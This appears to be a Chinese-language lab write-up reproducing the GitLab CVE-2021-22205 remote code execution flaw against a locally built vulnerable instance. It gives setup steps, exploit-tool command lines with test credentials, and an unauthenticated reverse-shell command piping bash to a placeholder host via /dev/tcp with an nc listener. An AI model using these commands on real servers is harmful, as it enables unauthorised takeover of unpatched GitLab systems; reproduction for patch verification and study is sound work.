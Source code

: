 # 0x01 环境搭建
使用环境：CentOS7.6.1810_x64_en-us  
下载rpm安装包：https://packages.gitlab.com/gitlab/gitlab-ce/packages/ol/7/gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
安装：sudo rpm -i ./gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
修改第1处配置：sudo vim /etc/gitlab/gitlab.rb
```
external_url 'http://192.168.202.133:1028'
nginx['listen_addresses'] = ['*', '[::]']
nginx['listen_port'] = 1028
nginx['listen_https'] = false
```
修改第2处配置：sudo vim /opt/gitlab/embedded/conf/nginx.conf
```
server {
        listen       *:1028;
        server_name  192.168.202.133;
        if ($http_host = "") {
            set $http_host_with_default "ip:1028";
        }
```
临时关闭防火墙
```
sudo systemctl stop firewalld
systemctl status firewalld
```
重新加载配置文件
```
gitlab-ctl reconfigure
```
重启gitlab
```
gitlab-ctl restart
```
成功配置后，访问目标地址如下图  
![image](./pic/1.png)  
首次访问需要更改密码，此处更改密码对应的是管理员用户：admin@example.com  
通过登录界面的注册功能，注册一个新用户，并登录管理员用户通过注册申请，最终登录普通用户如下图  
![image](./pic/2.png)  
# 0x02 漏洞复现1（需要验证）
影响版本  
Gitlab CE/EE < 13.10.3  
Gitlab CE/EE < 13.9.6  
Gitlab CE/EE < 13.8.8  

直接使用工具[https://github.com/mr-r3bot/Gitlab-CVE-2021-22205](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)复现漏洞会有2个小问题  
1、当验证用户使用管理员时，程序会报错，如下图  
![image](./pic/a.png)  
根据漏洞的基本原理及报错提示，大概猜测报错原因是管理员页面的html内容和普通用户页面的html内容不一致  
2、当验证用户使用普通用户时，提示RCE成功触发，但是没有回显，如下图  
![image](./pic/3.png)  
将漏洞利用的方式改为创建文件，命令如下
```
python3 ./exploit.py -u ybdtd -p nihaomadadada -t http://192.168.202.133:1028 -c "touch ybdtybdt.txt"
```
提示RCE成功触发，到服务器端查看，发现成功创建此文件，用户权限是git，如下图  
![image](./pic/4.png)  
# 0x03 漏洞复现2（不需要验证）
无需验证的原理是，可先向http://192.168.202.133:1028/users/sign_in发起请求获取到如下token
```
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="FDMYEP3KEj0GcWHB6ordjmI0rX5kC3zNOalicxxvG4KaDHWgQuEzvpYStFw3XfxVxeD67MNvIxkoxIGRuY/kDg==" />
```
然后带着token无需登录即可访问上传接口

借助工具：https://github.com/Al1ex/CVE-2021-22205  
vps上开启监听
```
nc -lnvvvp 1024
```
执行如下命令反弹shell
```
python3 ./CVE-2021-22205.py -a true -t http://192.168.202.133:1028 -c "bash -i >& /dev/tcp/xx.xx.xx.xx/1024 0>&1"
```
成功接收到反弹shell，如下图  
![image](./pic/5.png)  
# 0x04 参考链接
https://mp.weixin.qq.com/s/cy8OOzHD28Of3zC32S_4ow  
https://blog.csdn.net/yzd524850313/article/details/113118193  
https://www.jianshu.com/p/56541f6c01a5  
https://www.cnblogs.com/ybit/p/14918949.html  
https://blog.csdn.net/smellycat000/article/details/121005824  
